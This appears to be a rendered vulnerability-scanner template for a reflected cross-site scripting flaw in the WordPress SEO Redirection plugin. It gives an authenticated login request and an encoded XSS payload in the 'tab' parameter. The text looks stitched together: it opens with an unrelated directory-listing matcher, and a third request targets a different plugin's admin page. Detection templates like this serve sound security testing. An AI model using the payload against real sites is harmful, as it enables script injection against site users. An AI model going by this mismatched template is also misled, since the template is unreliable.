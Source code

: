 **Type - status**

- status
  1. 200

**Type - word**

- words
  1. Index of /

---

# WordPress SEO Redirection \<7.4 - Cross-Site Scripting

## Description

- WordPress SEO Redirection 7.4 does not escape the tab parameter before outputting it back in JavaScript code, leading to a reflected cross-site scripting vulnerability.

- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
POST /wp-admin/options-general.php?page=seo-redirection.php&tab=cutom HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

tab=%3C%2Fscript%3E%3Csvg%2Fonload%3Dalert%28%2FXSS%2F%29%3E

```

### Step - 3

```
GET /wp-admin/admin.php?page=wpda_duplicate_post_menu HTTP/1.1
Host: {{Hostname}}

```
